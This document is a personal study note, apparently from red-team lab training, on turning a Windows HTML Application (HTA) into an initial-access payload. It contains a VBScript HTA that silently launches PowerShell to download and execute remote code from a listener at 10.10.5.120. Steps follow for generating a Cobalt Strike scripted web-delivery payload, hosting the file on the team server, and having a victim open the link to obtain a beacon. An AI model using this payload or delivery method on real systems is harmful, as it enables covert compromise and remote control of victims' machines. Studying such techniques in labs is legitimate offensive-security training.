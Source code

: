 ```yaml
---
creation date: September 22nd 2022
last modified date: September 22nd 2022
aliases: []
tags: #🧰
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #🧰  

# [[HTA (HTML Application)]]  
___

## Description:
An HTA is a proprietary Windows program whose source code consists of HTML and one or more scripting languages supported by Internet Explorer (VBScript and JScript).


An HTA is executed using `mshta.exe`, which is typically installed along with IE. In fact, `mshta` is dependant on IE, so if it has been uninstalled, HTAs will be unable to execute.

## Installation
To create an HTA, open **Visual Studio Code** on the **attacker-windows** VM and create a new empty file. Save the following content to `C:\Payloads\demo.hta
```
<html>
  <head>
    <title>Hello World</title>
  </head>
  <body>
    <h2>Hello World</h2>
    <p>This is an HTA...</p>
  </body>

  <script language="VBScript">
	Function Pwn()
	  Set shell = CreateObject("wscript.Shell")

	  If shell.ExpandEnvironmentStrings("%PROCESSOR_ARCHITECTURE%") = "AMD64" Then
	    shell.run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://10.10.5.120/a'))"""
	  Else
    shell.run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://10.10.5.120/b'))"""
	  End If

	End Function

    Pwn
  </script>
</html>


```

In Cobalt Strike, go to **Attacks > Web Drive-by > Scripted Web Delivery (S)** and generate a 64-bit PowerShell payload for your HTTP listener. The URI path can be anything, Type should be powershell. Copy and paste into your HTA (remember to add double quotes around command).

Copy/paste this line into the HTA, it should look like this:

`shell.run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://10.10.5.120:80/a'))"""


## Commands


host the HTA on the Team Server so we can simply send a link for them to download and execute. Go to **Attacks > Web drive-by > Host File**. Select **demo.hta** and provide a URI to access it on. 



Run the hta on the victum machine with internet explorer installed to get a beacon.

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 22nd 2022 (02:01 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
